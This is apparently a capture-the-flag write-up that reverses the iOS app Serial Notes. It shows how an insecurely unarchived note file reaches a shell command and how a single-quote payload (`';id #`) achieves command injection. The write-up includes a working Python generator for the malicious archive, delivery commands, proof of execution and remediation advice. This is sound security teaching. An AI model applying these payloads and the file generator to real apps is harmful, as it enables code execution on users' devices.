




## Overview

Opening a crafted `.serial` note file in Serial Notes runs arbitrary shell commands as the app user (`uid=501(mobile)`). The whole chain was found statically from the IPA; the device was only booted to fire the final payload.

Serial Notes (`com.mobilehackinglab.SerialNotes2`) is a React Native markdown notes app with its own note file format. The bug chain:

1. The user opens any file through the in-app document picker.
2. A native module deserializes it with `NSKeyedUnarchiver.unarchiveTopLevelObjectWithData`, with no secure coding and no class allowlist.
3. For every `Note`, the `os` property is pasted into `uname -a  | grep -o '<os>' | head -n1` and run through `/bin/sh -c`.
4. The only filtering removes newlines, so a single quote breaks out of the quoted grep pattern.

Payload used: `';id #`, delivered in the `os` field of an otherwise normal note.



Each step sits in a different layer: the React Native UI, the bridge, Foundation's unarchiver, the Swift model and finally the shell.

## Recon

The app is React Native running on Hermes, so the app logic sits in `main.jsbundle` and the native attack surface in the `SerialNotes` Mach-O.

```bash
unzip SerialNotes.ipa && cd Payload/SerialNotes.app
ls Frameworks/                # hermes.framework
file SerialNotes              # Mach-O 64-bit arm64 executable
rabin2 -I SerialNotes         # lang swift, stripped, pic, canary
rabin2 -OC SerialNotes        # entitlements
plistutil -i Info.plist
```

Findings:

- `Frameworks/hermes.framework/hermes` is only the Hermes VM, identical in every RN app of that version. The app's JavaScript is in `main.jsbundle` at the `.app` root, compiled to Hermes bytecode, and needs a Hermes decompiler.
- `Info.plist` has no `CFBundleURLTypes` and no `CFBundleDocumentTypes`. The app registers no URL scheme and does not claim the `.serial` type, so the challenge text about deeplinks does not apply. The entry point has to be inside the app.
- Entitlements contain only `get-task-allow = true`, a debug build that a debugger or Frida can attach to.
- The main binary is Swift and stripped, but Swift and Objective-C symbol names survive for the classes that matter.

## JavaScript analysis

The JS only moves file paths and JSON; the file parsing happens in a custom native module, `SerialFileModule`.

Most grep hits in the decompiled bundle are React Native and library internals. Searching for `serial` gave the two lines that matter:

```
335572:        r4 = r4.SerialFileModule;
335802:            r1 = '/notes.serial';
```

`NativeModules.SerialFileModule` is not part of React Native, so the developer wrote it in Swift or Objective-C. Reading the code around those lines gives the data flow:

| Action | JS side | Native call |
| --- | --- | --- |
| Open | `DocumentPicker.pick({type: [allFiles]})`, then `decodeURI(uri)` and strip `file://` | `SerialFileModule.openFile(path)` |
| Save | `JSON.stringify(Object.values(notes))` | `SerialFileModule.packFile(json, DocumentDirectoryPath + '/notes.serial')` |

After `openFile` resolves, the JS checks `result[0].last_updated == 'error'` and rejects with `result[0].content`; otherwise it `JSON.parse`s the result and indexes the notes by `name`.

The entry point is the document picker with `allFiles`: the user can pick any file, and its path goes straight to native code. The realistic scenario is a victim opening a note file someone sent them.

## Native analysis

The native module deserializes untrusted data without secure coding and has a helper that runs strings through `/bin/sh -c`.

### Symbols and strings

```bash
strings -a SerialNotes | grep -iE "serial|NSKeyed|unarchiv|/bin/|%@"
rabin2 -i SerialNotes | grep -iE "spawn|system|popen|exec|fork"
```

- `-[RCTSerialFileModule openFile:resolver:rejecter:]` and `-[RCTSerialFileModule packFile:filePath:resolver:rejecter:]`: the two exported methods.
- `NSKeyedUnarchiver.unarchiveTopLevelObjectWithData`: deprecated because it does not enforce secure coding. Any class named in the archive is instantiated.
- `SerialNotes.Note`: an `NSCoding` class with `init(coder:)`, `encode(with:)` and four `String` properties: `name`, `content`, `last_updated`, `os`.
- `SerialNotes.JsonNote`: a `Codable` struct for the JSON side.
- `/bin/sh` and `Output: %@` next to the module's strings, plus imports of `popen` and `posix_spawn`. A notes app has no obvious reason to need a shell.

### The sink: `executeCommand`

Following `/bin/sh` in Ghidra leads to a small C helper:

```c
argv = { "sh", "-c", param_1, NULL };
pipe(fds);
posix_spawn_file_actions_adddup2(&fa, fds[1], 1);   // stdout only
posix_spawn(&pid, "/bin/sh", &fa, NULL, argv, NULL); // envp = NULL
// read stdout, NSLog(@"Output: %@", out), return out as NSString
```

`param_1` is a complete shell command line. Only stdout is captured, the child gets no environment, and the output is both logged and returned to the caller.

### Callers

Ghidra crashed on full analysis of the 10 MB binary, so radare2 was used for cross-references:

```bash
r2 -qc 'aa; axt sym._executeCommand' SerialNotes
```

```
sym.SerialNotes.File.open.                       0x1000067a0 bl sym._executeCommand
sym.SerialNotes.File.pack..filePath...           0x100006cb0 bl sym._executeCommand
```

`File.open` runs while a file is being opened, so attacker data reaches it. That is the function reversed in the next section.

## Reconstructing the command

`File.open` builds `uname -a  | grep -o '<os>' | head -n1` from each note's `os` field and only strips newlines. None of the literals show up in `strings`, because Swift keeps short strings inside instructions.

```bash
r2 -e bin.relocs.apply=true -qc 'aa; pdf @ 0x1000067a0' SerialNotes 2>/dev/null > open_full.txt
```

### Swift small strings: the suffix

Swift stores strings of 15 bytes or less inline in two 64-bit registers. The top byte of the second register is `0xE` plus the length. radare2 shows `movz` as plain `mov`, so grep for both.

```
mov  x0, 0x2027            ; "' "
movk x0, 0x207c, lsl 16    ; "| "
movk x0, 0x6568, lsl 32    ; "he"
movk x0, 0x6461, lsl 48    ; "ad"
mov  x1, 0x2d20            ; " -"
movk x1, 0x316e, lsl 16    ; "n1"
movk x1, 0xec00, lsl 48    ; 0xEC = small string, 12 bytes
```

Reading each 16-bit value low byte first gives `' | head -n1`. It starts with a single quote, so the field sits inside quotes.

### Swift large strings: the prefix

Longer literals live in the binary. Swift stores `(address - 0x20) | 0x8000000000000000`, so undo both steps:

```
adrp x8, 0x1003a3000
add  x8, x8, 0x440
sub  x8, x8, 0x20
orr  x8, x8, 0x8000000000000000
```

```bash
r2 -qc 'psz @ 0x1003a3440' SerialNotes
# uname -a  | grep -o '
```

23 bytes of prefix plus 12 of suffix is 35, which matches the `_StringGuts.grow(35)` call before the string is built.

### Which field, and the only filter

The properties are read through vtable calls on the `Note` object, 0x18 apart (getter, setter, modify per property), in declaration order:

| Vtable offset | Getter |
| --- | --- |
| `0x70` | `name` |
| `0x88` | `content` |
| `0xa0` | `last_updated` |
| `0xb8` | `os` |

The `0xb8` result goes straight into `replacingOccurrences(of:with:options:range:)`. Its arguments are the small strings `(0x0a, 0xE1...)`, which is `"\n"`, and `(0, 0xE0...)`, the empty string. So the code removes newlines and nothing else.

### Where the output goes

After `executeCommand` returns, the NSString is bridged to Swift and stored at offset `+0x50` of a 64-byte `JsonNote` (four 16-byte strings): name at `+0x20`, content at `+0x30`, last_updated at `+0x40`, command output at `+0x50`. The output replaces `os` in the JSON returned to JavaScript, and it is always logged as `Output: ...`.

Put together:

```swift
for note in unarchived as [Note] {
    let os  = note.os.replacingOccurrences(of: "\n", with: "")
    let out = executeCommand("uname -a  | grep -o '\(os)' | head -n1")
    result.append(JsonNote(name: note.name, content: note.content,
                           last_updated: note.last_updated, os: out))
}
```

### Coder keys

`Note.init(coder:)` at `0x100004db0` decodes four keys, again as inline immediates (`mov w0` for the shortest ones): `name`, `content`, `last_updated` (`0xEC`, 12 bytes) and `os`. They match the property names, which the archive needs.

## Exploitation

The payload `';id #` closes the quote, starts a new command, and comments out the rest of the line. It was tested on Kali before touching the device.

### Building the payload offline

The template uses only `uname`, `grep` and `head`, so the exact command line can be reproduced locally:

```bash
OS=$(cat <<'EOF'
';id #
EOF
)
echo "uname -a  | grep -o '${OS}' | head -n1"   # inspect what sh receives
sh -c "uname -a  | grep -o '${OS}' | head -n1"  # run it
```

The first attempt, `id > /tmp/rce.txt`, did nothing: inside single quotes every character is literal, so grep just searched for that text. The working shape:

```
uname -a  | grep -o '';id #' | head -n1
```

- `'` closes the fixed quote, leaving grep an empty pattern.
- `;` ends the pipeline, and `id` runs as its own command.
- `#` comments out the dangling `'` and `| head -n1`, which would otherwise be a syntax error.

### Building the archive

The file is an `NSKeyedArchiver` binary plist whose root is an `NSArray` of `SerialNotes.Note`. Python's `plistlib` writes it directly ([`make_serial.py`](/assets/files/mhl-serial-notes/make_serial.py)):

```python
#!/usr/bin/env python3
"""Build a SerialNotes .serial file (NSKeyedArchiver binary plist) holding [SerialNotes.Note].

Usage: python3 make_serial.py [os_value] [output_file]
Default os_value: "';id #"   default output: evil.serial
"""
import plistlib
import sys
from plistlib import UID

os_value = sys.argv[1] if len(sys.argv) > 1 else "';id #"
out_file = sys.argv[2] if len(sys.argv) > 2 else "evil.serial"

note_fields = {
    "name": "test",
    "content": "hello",
    "last_updated": "2026-11-20",
    "os": os_value,
}

objects = ["$null"]


def add(obj):
    objects.append(obj)
    return UID(len(objects) - 1)


# Root array placeholder at index 1, Note placeholder at index 2
root = {}
root_uid = add(root)
note = {}
note_uid = add(note)

for key, value in note_fields.items():
    note[key] = add(value)

note["$class"] = add({
    "$classname": "SerialNotes.Note",
    "$classes": ["SerialNotes.Note", "NSObject"],
})

root["NS.objects"] = [note_uid]
root["$class"] = add({
    "$classname": "NSArray",
    "$classes": ["NSArray", "NSObject"],
})

archive = {
    "$archiver": "NSKeyedArchiver",
    "$version": 100000,
    "$top": {"root": root_uid},
    "$objects": objects,
}

with open(out_file, "wb") as f:
    plistlib.dump(archive, f, fmt=plistlib.FMT_BINARY)

print(f"wrote {out_file} with os = {os_value!r}")
```

```bash
python3 make_serial.py "';id #" evil.serial
plistutil -i evil.serial
```

### Delivery

The picker browses the Files app, so the file has to be under On My iPhone. On the device, that is the App Group whose metadata names `group.com.apple.FileProvider.LocalStorage`:

```bash
for d in /var/mobile/Containers/Shared/AppGroup/*/; do
  grep -qa "group.com.apple.FileProvider.LocalStorage" \
    "$d.com.apple.mobile_container_manager.metadata.plist" 2>/dev/null && echo "$d"
done

LS="<that path>File Provider Storage"
cp evil.serial "$LS/" && chown mobile:mobile "$LS/evil.serial"
killall -9 fileproviderd   # Files only lists what fileproviderd has indexed
```

The file was moved to the device by pasting it as base64 into the device shell, because the lab VPN was not routing.



### Proof of execution

The first file, with `os = "';uname -a #"`, opened as a normal note titled `test` with content `hello`. That confirmed the class name and coder keys, but the UI never shows `os`, so the output was not visible.



The second payload writes `id` into the app's own data container. It needs an absolute path, because `posix_spawn` passes `envp = NULL` and `$HOME` is unset:

```
';id > /var/mobile/Containers/Data/Application/<app UUID>/Documents/pwn.txt #
```

After opening it in the app:

```
# cat /var/mobile/Containers/Data/Application/4E2129BE-.../Documents/pwn.txt
uid=501(mobile) gid=501(mobile) groups=501(mobile),250(_analyticsusers),286(_accessory_mobile_share),299(systemusers)
```



The command ran as `mobile`, from inside the Serial Notes process, triggered only by opening a file.

## Root cause and remediation

The real bug is a shell built from file data. The insecure unarchiver is what lets an attacker choose that data freely.

| Weakness | Fix |
| --- | --- |
| A string from the file is interpolated into `/bin/sh -c` | Do not use a shell. Read the OS name with `ProcessInfo.processInfo.operatingSystemVersionString` or `uname(3)`. If a process is unavoidable, pass arguments as an argv array, never through `sh -c`. |
| `os` is filtered only for `\n` | Validate against an allowlist such as `^[A-Za-z0-9 ._-]{1,32}$`. A denylist will always miss a metacharacter: here `'`, `;` and `#` all passed. |
| `NSKeyedUnarchiver.unarchiveTopLevelObjectWithData` | Use `unarchivedObject(ofClasses: [NSArray.self, Note.self], from:)` and have `Note` adopt `NSSecureCoding` with `decodeObject(of: NSString.self, forKey:)`. |
| Untrusted files get the same trust as the app's own `notes.serial` | Treat any picked file as hostile, or use a data format such as the existing `JsonNote` `Codable` model, which cannot instantiate classes. |

Secure coding alone would not have fixed this. The payload is a legitimate `String` in a legitimate `Note`, so a strict class allowlist still lets it through. The command injection needs its own fix.

## Lessons and tooling notes

The whole chain can be solved from the IPA, which saves device time: the device was used for a single session.

- In a React Native app, look for custom `NativeModules.<Name>`. Library internals dominate any naive grep of the bundle.
- Swift strings of 15 bytes or less never show in `strings`. Read them from `mov`/`movk` immediates, low byte first, with the `0xE<len>` marker in the top byte. radare2 prints `movz` as `mov`, and short keys may use `w` registers.
- Large Swift literals are stored as `(address - 0x20) | 0x8000000000000000`.
- Inlined Swift property access shows up as vtable calls 0x18 apart. Match the offsets to the declaration order from the initializer signature.
- When Ghidra dies on a big binary, `r2 -qc 'aa; axt sym.<func>'` finds callers cheaply. Ghidra can then decompile one function at a time.
- Reproduce the shell template locally and `echo` the final line before testing. It shows immediately whether the payload escapes the quotes.
- `posix_spawn` with `envp = NULL` means no `$HOME` or `$PATH` for the child, so use absolute paths in payloads.
- Files copied into On My iPhone over SSH stay invisible until `fileproviderd` restarts.

## Files

| File | What it is |
| --- | --- |
| [`make_serial.py`](/assets/files/mhl-serial-notes/make_serial.py) | Builds a `.serial` archive with any `os` value: `python3 make_serial.py "<os>" <out>` |
| [`evil.serial`](/assets/files/mhl-serial-notes/evil.serial) | `os = "';id #"` |
| [`evil2.serial`](/assets/files/mhl-serial-notes/evil2.serial) | Writes `id` to `pwn.txt` in the app container (path hardcoded to the lab device's UUID) |
